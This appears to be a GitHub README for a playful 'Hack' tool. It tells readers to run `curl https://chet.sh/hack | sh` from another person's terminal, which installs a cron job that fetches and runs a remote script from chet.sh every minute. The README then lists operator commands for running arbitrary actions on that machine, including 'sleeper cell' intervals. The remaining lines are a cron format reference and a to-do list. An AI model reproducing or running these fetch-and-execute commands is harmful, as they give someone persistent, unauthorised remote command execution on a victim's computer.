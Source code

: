 # Unnu1.github.io
# Hack

Start hacking someone by running this command from their Terminal: `curl https://chet.sh/hack | sh`. That sets up a cron job every minute which pings `curl https://chet.sh/live | sh`.

Now go to your commandline and we can start having some fun.

```
hack live exec "say hello world"
hack live interval 1y # sleeper cell
hack live cron "20 16 * * * * -- say 'its foe 20, ye better be toke-in'"
hack live reset
hack live forget
hack live rename jon
hack jon ...
```

# FYI

http://www.nncron.ru/help/EN/working/cron-format.htm

* * * * *
| | | | |
| | | | |
| | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)
| | | +------ Month of the Year (range: 1-12)
| | +-------- Day of the Month  (range: 1-31)
| +---------- Hour              (range: 0-23)
+------------ Minute            (range: 0-59)

# PS

How to make a Node.js CLI app: http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm

# PPS

Bought the domain name `chet.sh` here: https://www.nic.sh/

# To Do

- demo
- better readme
- better help
- better command validation
- configure with custom domain name
